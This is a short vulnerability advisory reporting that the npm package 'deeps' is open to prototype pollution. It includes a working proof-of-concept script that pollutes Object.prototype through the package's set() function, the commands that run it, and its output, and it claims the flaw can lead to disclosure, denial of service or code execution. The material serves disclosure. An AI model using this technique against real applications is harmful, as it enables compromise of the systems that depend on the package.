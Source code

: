 # Description

`deeps` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { set } = require('deeps')
console.log('Before: ', {}.polluted)
set(constructor.prototype, 'polluted', true)
console.log('After: ', {}.polluted)
```
2. Execute the following commands in the terminal:
```bash
npm i deeps # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

